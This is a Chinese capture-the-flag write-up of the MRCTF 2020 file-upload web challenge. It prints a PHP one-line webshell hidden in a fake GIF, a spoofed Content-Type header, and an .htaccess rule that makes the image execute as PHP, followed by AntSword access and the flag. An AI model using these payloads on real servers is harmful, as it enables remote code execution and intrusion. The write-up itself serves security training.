 ```yaml
---
title: MRCTF 2020 你传你🐎呢
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

文件上传题我想来推荐直接用 Burp Suite 拦截请求，一个一个放行过去

![](https://p.sda1.dev/13/598c88e8b736eca43607236571592283/image.png)

选一个经常用的图片木马 `a.gif`，直接上传，发现只有当把文件类型修改成 `image/jpeg` 的时候才能够被放行，否则都是一句 `我扌your problem?`，讲真，出这个题的人有点抽象

```http
Content-Disposition: form-data; name="uploaded"; filename="a.gif"
Content-Type: image/jpeg

GIF89a?
<script language='php'>@eval($_POST['attack']);</script>
```

再之后我们把后缀名改成可被 PHP 执行的，比如 `.php`，`.phtml` 等，不论是大小写还是别名都行不通，说明这个题目得用其他方法，即使用 `.htaccess` 配置文件使其能够将我们的图片文件作为 PHP 文件执行

## .htaccess 改造

我们自己写一个 .htaccess 文件，将这个文件传上去，当然传的时候别忘了把 `Content-Type` 改成 `image/jpeg`，他只认 `jpeg`，但我们这次很显然就能够绕过对于 `.php` 的判断了

```xml
<FilesMatch "a.gif">
    SetHandler application/x-httpd-php
</FilesMatch>
```

此时访问 `/upload/3ac75d11b42dc586a891e7d538521f24/a.gif`，发现屏幕上已经出现了 `GIF89a?`，说明我们的图片木马已经被当成 PHP 文件执行了

## 攻入靶机

用蚁剑操作，这是基本操作了，不多赘述，进入后直接打进根目录，发现 Flag 文件，最终结果为 `flag{1762a205-9062-4cfb-acac-1d02f1a5b952}`